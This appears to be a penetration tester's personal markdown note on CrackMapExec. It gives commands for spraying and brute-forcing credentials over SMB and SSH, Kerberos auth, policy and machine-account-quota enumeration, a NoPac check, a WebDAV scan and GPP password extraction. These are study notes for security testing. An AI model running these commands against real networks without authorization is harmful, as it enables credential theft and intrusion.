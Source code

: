 ```yaml
---
creation date: November 30th 2021
last modified date: November 30th 2021
aliases: []
tags: #📖
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📖  

# [[CrackMapExec]]  

Can be used to test creds on an entire network:
```
crackmapexec smb 10.10.110.0/24 -u mrb3n W3lc0me123!!!
```

Can also be used to brute force (smb, mssql, winrm, ldap, ssh):
```
crackmapexec smb 172.16.1.1/24 -u user.txt -p pass.txt

crackmapexec ssh 172.16.1.1/24 -u user.txt -p pass.txt
```

### Kerberos Auth 
For kerberos, use the latest CrackMapExec (>= 5.2.3)
```bash
export KRB5CCNAME=/path/to/ticket.kirbi
cme smb <ip> -d <DOMAIN> -u <USER> -k 
```
### Enumerate Password Policy

```bash
cme --verbose smb -d <DOMAIN> -u <USER> --pass-pol <DC-IP>
```

### Enumerate Machine Account Quota 
```bash 
cme --verbose ldap <dc-ip> -d -u -M maq
```

### Check for NoPac (CVE-2021-42278 | CVE-2021-42287)
```bash
crackmapexec --verbose smb <dc-ip> -u '<user>' -p '<pass>' -M nopac
```

### Scan for WebDAV Systems
```bash 
crackmapexec smb <target-list.txt> -u 'user' -p 'pass' -M webdav
```

### GPP Password 
```bash 
crackmapexec smb <dc-ip> -u 'user' -p 'pass' -M gpp_password
```


### Changing Pwn3d! output for better screenshots
```
sudo vim /home/cff-tester/.cme/cme.conf

#Change pwnd line
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: November 30th 2021 (09:54 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
